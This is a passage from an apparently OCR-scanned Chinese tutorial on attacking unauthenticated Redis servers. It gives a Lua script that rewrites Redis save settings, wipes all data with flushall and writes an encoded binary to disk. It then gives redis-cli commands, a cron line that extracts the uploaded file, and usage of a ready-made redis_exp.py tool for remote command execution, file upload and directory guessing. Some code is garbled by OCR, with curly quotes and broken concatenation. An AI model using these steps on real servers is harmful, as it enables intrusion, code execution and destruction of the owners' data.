 ```
local dbfilename = redis.call(‘config’,‘get’,‘dbfilename’)

redis.call(‘config’,‘set’,‘dbfilename’,‘t’)

local rdbcompress = redis.call(‘config’,‘get’,‘rdbcompression’)

redis.call(‘config’,‘set’,‘rdbcompression’,‘no’)

redis.call(‘flushall’) `local data = ‘1a2b3c4d5e6f1223344556677890aa’

redis.call(‘set’,‘data’,hex2bin(‘0a7c7c7c’…data…‘7c7c7c0a’))

local rst = {}

rst[1] = ‘server default config’

rst[2] = ‘dir:’…dir[2]

rst[3] = ‘dbfilename:’…dbfilename[2]

rst[4] = ‘rdbcompression:’…rdbcompress[2]

return rst

保存以上代码为a.lua，变量data保存的是程序的16进制编码，执行` 
```

```
redis-cli --eval a.lua -h *.*.*.*
```

由于redis不支持在lua中调用save因此需要手动执行save操作,并且删除key data，恢复dir等。

```
redis-cli save -h *.*.*.*
redis-cli config set dir *** -h *.*.*.*
redis-cli config set dbfilename *** -h *.*.*.*
redis-cli config set rdbcompression * -h *.*.*.* 
```

目前写入的文件前后是存在垃圾数据的，下一步通过写计划任务调用python或者系统命令提取出二进制文件（写文件之在数据前后加入了 |||作为提取最终文件的标识）。

```
*/1 * * * * python -c 'open("/tmp/rst","a+").write(open("/tmp/t").read().split("|||")[1])'

```

/tmp/rst为最终上传的文件。

##### (5).傻瓜式python脚本

From:https://raw.githubusercontent.com/00theway/redis_exp/master/redis_exp.py

```
执行命令
需要root权限，每次添加计划任务前先获取服务器时间，然后根据获取的时间设置执行计划任务的时间，确保命令被执行一次，避免多次执行引发服务器异常。
    python redis_exp.py --host *.*.*.* -c 'id'

上传文件

上传携带脏数据的文件不需要root权限，上传二进制文件需要root权限，先上传带有脏数据的文件，在文件前后插入特征字符串，然后添加计划任务截取数据

python redis_exp.py --host *.*.*.* -l /data/payload.py -r /tmp/p.py

暴力猜解目录

不需要root权限，利用 config set dir ‘xx’ 报错进行目录猜解

```